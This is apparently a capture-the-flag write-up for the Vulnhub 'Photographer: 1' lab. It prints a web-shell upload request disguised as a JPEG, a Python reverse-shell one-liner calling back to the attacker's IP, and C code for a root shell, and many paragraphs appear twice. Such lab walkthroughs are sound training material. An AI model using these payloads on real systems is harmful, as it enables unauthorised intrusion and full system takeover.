Photographer: 1 is a relatively new machine in Vulnhub, which was developed to help on the preparation for OSCP. The goal is to get the two flags inside of the machine (user.txt and proof.txt).
Network Scan
As always, I’ve used Nmap to sweep the network to find the IP of the target machine.
 10.10.10.10 is the IP of my machine, so 10.10.10.128 is the target machine.
10.10.10.10 is the IP of my machine, so 10.10.10.128 is the target machine.
Port Scan
 This machine has two HTTP ports and two SMB ports. I usually start with the HTTP ones because I find myself more comfortable working with them, but this time I decided to start with SMB.
This machine has two HTTP ports and two SMB ports. I usually start with the HTTP ones because I find myself more comfortable working with them, but this time I decided to start with SMB.
SMB Enumeration
First, I enumerated the shares using smbclient.
 The only interesting share is “sambashare”, so I tried to read it without password.

It worked, so I downloaded the two files to my machine to inspect them more easily. The wordpress.bkp.zip has a fresh installation of Wordpress 5.4.2 (as seen in the wp-includes/version.php file) while the mailsent.txt is an email to a user called Daisa.


I also used enum4linux to get a bit more information, which got me two users on the machine.
The only interesting share is “sambashare”, so I tried to read it without password.

It worked, so I downloaded the two files to my machine to inspect them more easily. The wordpress.bkp.zip has a fresh installation of Wordpress 5.4.2 (as seen in the wp-includes/version.php file) while the mailsent.txt is an email to a user called Daisa.


I also used enum4linux to get a bit more information, which got me two users on the machine.

Port 80 Enumeration
At a first glance port 80 doesn’t have anything interesting, but after rooting the machine I found that the koken directory could be accessed from there (if you can find it fuzzing the directories). This isn’t necessary as port 8000 directs you to the koken directory.
Port 8000 Enumeration
I found both on the NSE Scripts output and the page source the “Koken 0.22.24” string, which refers to the CMS used to build the page. There is an entry on ExploitDB with an authenticated Arbitrary File Upload for this version (later I found that the author of the entry is the creator of the machine).
On the timeline page of the blog there is a shell.php file which attempts to connect to a machine, so it is confirmed that the exploit works on the installed version.
 
There is a login form on the admin directory but I didn’t found any credential for it yet. After searching for default credentials on the internet or hidden files I decided to go back to my notes and read again the email found on the SMB share.

There is a login form on the admin directory but I didn’t found any credential for it yet. After searching for default credentials on the internet or hidden files I decided to go back to my notes and read again the email found on the SMB share.
I guessed that the email used on the blog was “daisa@photographer.com” as the blog is “Daisa Website’s”. For the password I used “babygirl” because it really caught my attention.
 The credentials “daisa@photographer.com” and “babygirl” worked, so I followed the exploit to upload my shell. I won’t explain the process as the ExploitDB explanation is good enough, but I’ll leave the HTTP Request that I used which should be enough to upload the shell.

The credentials “daisa@photographer.com” and “babygirl” worked, so I followed the exploit to upload my shell. I won’t explain the process as the ExploitDB explanation is good enough, but I’ll leave the HTTP Request that I used which should be enough to upload the shell.

POST /api.php?/content HTTP/1.1
Host: 10.10.10.128:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.128:8000/admin/
x-koken-auth: cookie
Content-Type: multipart/form-data; boundary=---------------------------888515285638187952681108602
Content-Length: 1077
Connection: close
Cookie: koken_referrer=; koken_session_ci=azOCz7y1EQ2C8yqnmyADuudfsvdiw%2FsIERGMOrBHoMsQCLat9AQJq4hvGRG6arJqXcbdLAhIsMsFnFMzODgYRPEX5oaDfc0m9lRI3i4yDMq72RARdKf3etn6FzFBA4pJjQwVE2iBvvGNcKsVdf8eyB1GRmT1fActCB%2FcvgePW1t0cnIzBJx5rG1SGaDl1bFMCT1mmUP%2FZ5N%2Bl6ZSqTlyiWVs4ApVix06L6EMbw97WlAbyOFNl4jZwZKTjC%2FQo3KS514nXCz2iaf26Kc6blUq3bCRT3KUMdxZ%2FznD%2ByrwKApQsbWHKp6p%2BNavZ0tVWUpPZYNhTCrk1xuTnyIl92FqHcuu%2BS2id6XvjODFeSva1bsX1i1SjeJ9ec25xQdVcwKQ2oKCF9NahZvoy8ofCJ5c3c4tM%2B%2BM5jB55vK2q%2B%2FOBdAq0kCVameuSsIgRymlbbKbtnl6lNm%2BO8rsVTxrvFYfy8OeCgtVESGZqjz3JwrLWMVavxeWFKcCk1ZLpIqRmUer%2FIqkOm8sGb7l9GnnxfbFHP4dKKLi39S6UNPqYESpYpK9BfOyYI%2FaQusRG5RmltKso5%2B2l38l07NrbnsZ0qahDV4pdQJzLUhJXjJIAAONMDjKGLxcv%2F5l5ZZulM7lE0dlnVGfGjhxEhXof7AZ0GB3zJhGJDN3N9SLpQd7JYe9ZLM24GpY3at4RWCnnCgp%2FcbfWdCz%2FEshN9yspvMiNPv%2FFeF6BrtcXndy46ErPEY9St6ay1LzikQ4l2mZdn2E6GZyuttH%2FOVJEI12u70aRWSTQLuAs5TTtAbyn58Q7OJJIBPpX6vSEMAq1vJB1FlQ3CSCTE8mrAfp%2FNhQx4t7QrtNbBJJCV%2Bk7cYb8AUiBBuuk1h8Vi51wfPCWCstJHqSZXQgDs2DWJ3sbYEEGXZ38AgjbjYI7i3PcDl9dOb2PqHCEwfuGKHrgFpXGxsZkjO8vbNYM3dOvju5IXDtDp%2BVDCxFp7bQ0SxIq00T2qhDNRnjH1HdF7xInwD%2FMXT%2BnT4srGRB5xQI%2BMoy4GlHPwGSZf4LTq1y0Wq4TdTUryVC8CaBMle4iowOZ5fzY1zimG5dNkJrtWSW1ilBV8KLXRIeMwjgSzwqcR3%2BXsyP08wG%2FEixfvRqAFsze4s6M%2FHrUc%2BA2o4UjP82nNFfnMxBoMRoiuoE2m46kZnzlS1jSKp%2FS4Xs747%2FEz7dFFdqTvQFLtFkG0mZQcln55%2FXlM4ztPem2FbGioIkvUk0IB%2Bh10LK4abxQ6avAYP1V3ipaiWEgz%2BBty3t3615e0bf1ba28084be86fbe55846d5c1b6d9fb21
-----------------------------888515285638187952681108602
Content-Disposition: form-data; name="name"
shell2.php
-----------------------------888515285638187952681108602
Content-Disposition: form-data; name="chunk"
0
-----------------------------888515285638187952681108602
Content-Disposition: form-data; name="chunks"
1
-----------------------------888515285638187952681108602
Content-Disposition: form-data; name="upload_session_start"
1598278209
-----------------------------888515285638187952681108602
Content-Disposition: form-data; name="visibility"
public
-----------------------------888515285638187952681108602
Content-Disposition: form-data; name="license"
all
-----------------------------888515285638187952681108602
Content-Disposition: form-data; name="max_download"
none
-----------------------------888515285638187952681108602
Content-Disposition: form-data; name="file"; filename="shell.php.jpg"
Content-Type: image/jpeg
ÿØÿÛ<?php system($_REQUEST[cmd])?>
-----------------------------888515285638187952681108602--
www-data Shell
I used the “python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.10.10.10”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’” command to get a reverse shell.

I found the user.txt flag in the /home/daisa/ directory and I also found the credentials used to access the MySQL server inside the /var/www/html/koken/storage/configuration/database.php after spending a while searching for them, even though I didn’t find anything useful inside the server.
 After this, I used the LinEnum script to enumerate the SUID binaries and I noticed that php7.2 had the SUID bit enabled, which looked really promising.
After this, I used the LinEnum script to enumerate the SUID binaries and I noticed that php7.2 had the SUID bit enabled, which looked really promising.

PrivEsc to Root
There is an entry on GTFOBins for php with SUID, so I followed the instructions to get a root shell.  As seen in the image, the shell has an effective UID of 0 which means that we have root privileges, but some programs ignore the EUID. In my write-up for the Mr Robot 1 machine I didn’t try to get UID of 0, so I’ll show a way to do it in this write-up.
Changing EUID to UID
Probably there are faster ways, but I’ll explain the one that I know because it only requires to have access to a compiler. To this method we need to write a C code that uses the SetRUID system call and then gives us a shell.
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char** argv) {
if (setreuid(0,0) < 0) {
perror("Setuid\n");
exit(1);
}
if (system("/bin/bash") < 0) {
perror("Error executing command\n");
exit(1);
}
}Once we have the code we only need to upload it to the machine, compile it and run it to get a shell with UID of 0 (and more interactive than the one we had before).
 The last flag is in the /root/ directory.
The last flag is in the /root/ directory.
Conclusions
This is an easy machine which involves a little bit of guessing at the beginning and basic knowledge of cybersecurity. I probably spent more time than necessary on this machine because I wanted to find the credentials for the database, but I feel satisfied because I was able to guess the Koken admin credentials pretty fast.